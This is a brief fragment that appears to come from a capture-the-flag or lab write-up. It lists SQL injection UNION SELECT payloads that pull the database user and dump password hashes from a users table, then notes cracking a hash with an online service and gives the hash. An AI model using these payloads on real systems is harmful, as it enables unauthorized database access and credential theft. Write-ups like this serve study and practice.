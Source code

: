 %' union select 1,user(),3,4,5,6,7-- 

%' union select 1,password,3,4,5,6,7 from users-- 

crackstation on the hash

https://crackstation.net/

6885858486f31043e5839c735d99457f045affd0